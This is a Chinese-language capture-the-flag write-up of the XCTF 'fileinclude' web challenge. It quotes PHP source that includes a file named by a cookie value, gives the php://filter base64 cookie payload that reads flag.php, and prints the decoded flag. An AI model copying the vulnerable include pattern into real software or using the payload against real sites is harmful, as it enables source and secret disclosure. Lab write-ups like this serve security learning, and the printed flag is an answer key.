 # fileinclude

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=4c0925be-17ac-11ed-9827-fa163e4fa633&task_category_id=3)

这题我想复杂了……

进来就几个大字，告诉我们flag在flag.php。检查元素发现了源代码。

![fileinclude](../../images/fileinclude.png)

```php
<?php
if( !ini_get('display_errors') ) {
  ini_set('display_errors', 'On');
  }
error_reporting(E_ALL);
$lan = $_COOKIE['language'];
if(!$lan)
{
	@setcookie("language","english");
	@include("english.php");
}
else
{
	@include($lan.".php");
}
$x=file_get_contents('index.php');
echo $x;
?>
```

我最开始没搞懂为什么要把display_errors打开。简单介绍一下几个函数，因为跟这次挑战毫无关系，了解一下得了。

- ### ini_get
  > 获取一个配置选项的值
- ### ini_set
  > 设置选项的值
- ### error_reporting
  > 设置错误报告的级别

然后往下看。$lan是cookie“language“的值。$_COOKIE是php里存储cookie的全局数组。setcookie设置一个cookie的值。然后就没了？我们只需要设置cookie为想要读取的文件名就可以进入else分支，然后包含文件。那还是php伪协议，甚至是同一个。用bp可以很简单地增加cookie，repeater里面的inspector随便加。cookie值如下：

- php%3a%2f%2ffilter%2fread%3dconvert.base64-encode%2fresource%3dflag

后面帮我们补上了后缀名所以直接flag就行了。出来了一串base64。

- PD9waHANCiRmbGFnPSJjeWJlcnBlYWNle2Q3YjdkNzdlNTE2YzE1ZTQ3ODU1NTdiMTRiMWU5YjJkfSI7DQo/Pg==

解码就得到了flag。

- ### Flag
  > cyberpeace{d7b7d77e516c15e4785557b14b1e9b2d}